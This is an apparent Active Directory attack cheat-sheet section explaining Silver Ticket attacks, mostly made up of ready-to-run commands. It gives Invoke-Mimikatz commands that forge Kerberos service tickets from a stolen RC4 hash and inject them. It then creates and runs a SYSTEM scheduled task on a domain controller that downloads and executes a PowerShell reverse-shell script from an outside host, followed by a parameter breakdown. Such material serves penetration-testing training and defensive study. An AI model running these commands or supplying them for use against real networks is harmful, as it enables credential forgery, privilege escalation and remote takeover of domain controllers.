 A silver Ticket attack is similar to a Golden Ticket in that it involves abusing credentials.
A silver Ticket allows an attacker to forge a valid TGS for specific services. 

The password hash for the service account must be known, as the TGS is encrypted using the Service Accounts password hash.

Invoke-Mimikatz is used here again.


```powershell
#Using hash of the Domain Controller computer account, below command provides access to shares on the DC.
Invoke-Mimikatz-Command '"kerberos::golden /domain:abc.example.local /sid:S-1-5-21-1874506631-3219952063-538504511 /target:dc.abc.example.local /service:CIFS /rc4:6f5b5acaf7433b3282ac22e21e62ff22 /user:Administrator/ptt"' 
#Similar commands can be used for any other service on a machine. HOST, RPCSS, WSMAN etc. 


#There are various ways of achieving command execution using Silver tickets. 
#Create a silver ticket for the HOST SPN which will allow us to schedule a task on the target:
Invoke-Mimikatz-Command '"kerberos::golden /domain:abc.example.local /sid:S-1-5-21-1874506631-3219952063-538504511 /target:dc.abc.example.local /service:HOST /rc4:6f5b5acaf7433b3282ac22e21e62ff22 /user:Administrator/ptt"'


#Schedule and execute a task.
schtasks /create /S dc.abc.example.local /SC Weekly /RU "NT Authority\SYSTEM" /TN "STCheck" /TR "powershell.exe -c 'iex(New-Object Net.WebClient).DownloadString(''http://192.168.100.1:8080/Invoke-PowerShellTcp.ps1''')'"
schtasks/Run/S dc.abc.example.local /TN "STCheck"
```


Breakdown of Invoke-Mimikatz command:
```sh
Kerberos:golden - Name of the module used
/user - The user account which the TGT will be generated for
/domain - domain FQDN
/sid - SID of the domain
/krbtgt - NTLM hash of the krbtgt account, /aes128 and /aes256 can be used also
/id,/groups - User ID and Group ID
/ptt - Injects the ticket into the current PowerShell process
/service - the SPN name of the service for which the TGS will be created for

/startoffset -  These last 3 options are optional inputs that can be used to match the current domain configuration for tickets
/endin
/renewmax
```